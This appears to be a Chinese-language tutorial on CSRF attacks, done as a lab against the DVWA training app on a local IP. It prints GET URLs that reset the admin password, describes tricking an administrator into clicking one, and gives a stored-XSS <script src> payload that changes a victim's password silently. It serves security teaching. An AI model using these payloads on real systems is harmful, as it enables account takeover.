 [TOC]

## 定义

![]((29)CSRF攻击介绍与实施_files/7f43d040-0133-4046-b956-1d035b4f853d.jpg)
1.登录正常网站A
2.通过登录验证,在用户C的本地产生正常网站A的Cookie;
此时再去访问网站B(被黑客控制的);黑客通过这个网站向用户C发出了一个请求,这个请求是 访问网站A(让用户C访问A,用户自己是不知道的,而A则认为这是C的正常请求,比如我要转账,我要消费,它一看会话建立了,身份通过验证了;而且就是从用户C这里发出的，而后就执行操作;)

用户C带着 B网站发出的请求带着A网站的cookie访问A;A就认为这是一个正常的请求;A就根据用户的权限处理由B网站发出的请求;黑客句实现了会话劫持的目的;
这个过程里面网站A是有CSRF的漏洞的;
有些网站后台 具有创建管理员账号(或者修改管理员密码这样的功能)这样的功能，要想访问这个页面,得有管理员权限才可以,现在黑客他就想创建管理员 账号,可以通过CSRF让管理员(如果他正在登录网站管理后台)，管理员访问了黑客网站,黑客网站通过管理员发出一个请求,让其创建一个管理员账号;或者说把管理员账号改了,这个请求通过管理员登录后台！

## 实战
![]((29)CSRF攻击介绍与实施_files/f2fabe5f-a247-40c7-9993-39cb8fd814d0.jpg)

![]((29)CSRF攻击介绍与实施_files/1a43e3f0-75c5-4aca-83f9-181a4d91dc48.png)

![]((29)CSRF攻击介绍与实施_files/75c7a3e3-a776-482c-83ee-157a74bddcc5.png)

![]((29)CSRF攻击介绍与实施_files/4c2b15f6-c63f-4138-84b6-a49363d7ea13.png)
可以看到其密码用md5加密了!
下面修改密码:(为123)
![]((29)CSRF攻击介绍与实施_files/7bd9ffc6-ad6a-4088-866d-b7e47685044d.png)

发现其已经改了:
![]((29)CSRF攻击介绍与实施_files/5f631fff-4de5-480a-be43-aecdfb813c40.png)


这里CSRF的攻击目的就是更改dvwa的密码;
这里将其url复制下来:
```
http://192.168.2.59/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```
这里用的是get方法传密的;
`password_new`和`password_conf`(这是确认confirm)
其实这里可以直接把这个url修改也可以，把123对应的几个数字改一波即可！！！
先以管理员权限登录,
![]((29)CSRF攻击介绍与实施_files/c47da062-6e46-4e60-b76b-69e92aa08f28.png)

下面将这个链接直接发给管理员让其点击:
```
http://192.168.2.59/dvwa/vulnerabilities/csrf/?password_new=abcd&password_conf=abcd&Change=Change#
```

![]((29)CSRF攻击介绍与实施_files/1ac469d6-9ce5-4357-89f0-d4237e3f8232.png)

![]((29)CSRF攻击介绍与实施_files/bc624cb7-ceb1-4c62-9cd9-866c414af095.png)
发现密码改了,这就是一个典型的csrf攻击！
前提:
1.受害者确实已经登录网址A，并与之建立会话
2.A有这个漏洞
3.受害用户访问这个链接
![]((29)CSRF攻击介绍与实施_files/4fd4c527-2128-43df-ae18-4170d84699dd.jpg)


![]((29)CSRF攻击介绍与实施_files/2e7104cb-2f90-47e4-beae-2cf06b78a89e.jpg)

![]((29)CSRF攻击介绍与实施_files/7ac0205a-97df-44e3-aaec-6f9fdb110fd1.jpg)
```
<script src="xxx" >

        </script>

```
这是调用外部 js链接；
XSS与CSRF结合其实就是将xss里面的恶意js设置为修改你的登录密码等恶意行为！(这个方法有一个好处：会神不知鬼不觉改你的密码)
如下:
```
<script
src = "http://192.168.2.59/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#"
></script>
```

![]((29)CSRF攻击介绍与实施_files/661a0d7b-aa42-4539-93a8-333cbc8b06d5.png)

![]((29)CSRF攻击介绍与实施_files/122ae3e7-5eb2-4524-9cc7-d5a76f9d68f5.png)

![]((29)CSRF攻击介绍与实施_files/d913104c-8523-444e-8cf5-c2e96cd3a2a3.png)

![]((29)CSRF攻击介绍与实施_files/77020dc1-d093-4319-918a-68b644df1dad.png)
而后提交;
![]((29)CSRF攻击介绍与实施_files/d8db5442-e329-4a7e-b8a5-625f6ae99087.png)

重新打开一个页面；
![]((29)CSRF攻击介绍与实施_files/a090de36-37e6-4ba3-819c-7607cf196f97.png)
发现其密码是改变了的！
![]((29)CSRF攻击介绍与实施_files/94d75210-1a7b-461c-972f-a739d318fc94.png)


